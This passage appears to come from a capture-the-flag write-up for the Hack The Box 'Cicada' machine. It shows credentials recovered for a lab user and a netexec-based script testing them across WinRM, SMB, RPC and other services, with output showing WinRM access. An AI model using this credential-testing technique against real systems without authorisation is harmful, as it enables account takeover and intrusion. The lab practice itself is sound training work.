 perfect! we found creds for another user! creds obtained:

```bash
emily.oscars
Q!3@Lp#M6b*7t*Vt
```

## Checking where we can login with those creds

```bash
./auto_netexec_bulk_creds_checker.sh cicada.htb 'emily.oscars' 'Q!3@Lp#M6b*7t*Vt'
```

```bash
[*] Checking if winrm port 5985 is open on cicada.htb...
[+] Port 5985 open — checking winrm with netexec
WINRM       10.129.180.83   5985   CICADA-DC        [*] Windows Server 2022 Build 20348 (name:CICADA-DC) (domain:cicada.htb)
WINRM       10.129.180.83   5985   CICADA-DC        [+] cicada.htb\emily.oscars:Q!3@Lp#M6b*7t*Vt (Pwn3d!)

[*] Checking if smb port 445 is open on cicada.htb...
[+] Port 445 open — checking smb with netexec
SMB         10.129.180.83   445    CICADA-DC        [*] Windows Server 2022 Build 20348 x64 (name:CICADA-DC) (domain:cicada.htb) (signing:True) (SMBv1:False)
SMB         10.129.180.83   445    CICADA-DC        [+] cicada.htb\emily.oscars:Q!3@Lp#M6b*7t*Vt 

[*] Checking if ldap port 389 is open on cicada.htb...
[-] Skipping ldap — port 389 is closed

[*] Checking if rdp port 3389 is open on cicada.htb...
[-] Skipping rdp — port 3389 is closed

[*] Checking if wmi port 135 is open on cicada.htb...
[+] Port 135 open — checking wmi with netexec
RPC         10.129.180.83   135    CICADA-DC        [*] Windows Server 2022 Build 20348 (name:CICADA-DC) (domain:cicada.htb)
RPC         10.129.180.83   135    CICADA-DC        [+] cicada.htb\emily.oscars:Q!3@Lp#M6b*7t*Vt 

[*] Checking if nfs port 2049 is open on cicada.htb...
[-] Skipping nfs — port 2049 is closed

[*] Checking if ssh port 22 is open on cicada.htb...
[-] Skipping ssh — port 22 is closed

[*] Checking if vnc port 5900 is open on cicada.htb...
[-] Skipping vnc — port 5900 is closed

[*] Checking if ftp port 21 is open on cicada.htb...
[-] Skipping ftp — port 21 is closed

[*] Checking if mssql port 1433 is open on cicada.htb...
[-] Skipping mssql — port 1433 is closed
```
